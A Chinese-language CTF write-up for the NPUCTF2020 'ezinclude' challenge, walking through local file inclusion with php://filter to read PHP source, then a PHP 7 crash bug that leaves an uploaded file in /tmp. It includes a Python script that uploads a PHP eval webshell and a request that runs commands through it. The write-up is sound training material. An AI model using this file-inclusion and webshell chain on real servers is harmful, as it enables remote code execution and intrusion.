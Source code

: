 # [NPUCTF2020]ezinclude（学习）
![](<./img/Pasted image 20230121101659.png>)

```
/index.php
```

```
username/password error
```

![](<./img/Pasted image 20230121101833.png>)

![](<./img/Pasted image 20230121102812.png>)

```
/index.php?pass=fa25e54758d5d5c1927781a6ede89f8a
```

![](<./img/Pasted image 20230121103010.png>)

![](<./img/Pasted image 20230121103329.png>)

```
/flflflflag.php
```

```html
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
include($_GET["file"])</body>
</html>
```

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=flflflflag.php
```

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
	die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

`flag`并不在这里

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
	echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
	</script>
';
}else{
	setcookie("Hash",md5($secret.$name),time()+3600000);
	echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=config.php
```

```php
<?php
$secret='%^$&$#fffdflag_is_not_here_ha_ha';
?>
```

死胡同.jpg

---

# php临时文件包含

![](<./img/Pasted image 20230121111807.png>)

扫目录能扫到`dir.php`

```
/flflflflag.php?file=php://filter/read=convert.base64-encode/resource=dir.php
```

```php
<?php
var_dump(scandir('/tmp'));
?>
```

通过`dir.php`可以查看`/tmp`目录下的文件

![](<./img/Pasted image 20230121113234.png>)

`php`在接收`POST`上传的文件之后会把文件先放在临时目录下面，之后再通过`move_uploaded_file`之类的操作移动到别的地方

利用`php7`部分版本的一个`bug`可以让`php`崩溃，于是上传的文件滞留在临时目录而不会被自动删除

```
/flflflflag.php?file=php://filter/read=string.strip_tags/resource=/etc/passwd
```

```python
import requests

url = 'http://b1eb74ce-6032-4d09-a41d-7de34a780ed4.node4.buuoj.cn:81/flflflflag.php?file=php://filter/read=string.strip_tags/resource=/etc/passwd'
payload = "<?php eval($_GET['cmd']); ?>"
files = {'shell.php': payload.encode()}

requests.post(url, files=files)
```

```
/dir.php
```

```php
array(3) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(9) "phpjyG5mT"
}
```

```
/flflflflag.php?file=/tmp/phpjyG5mT&cmd=phpinfo();
```

![](<./img/Pasted image 20230121115152.png>)
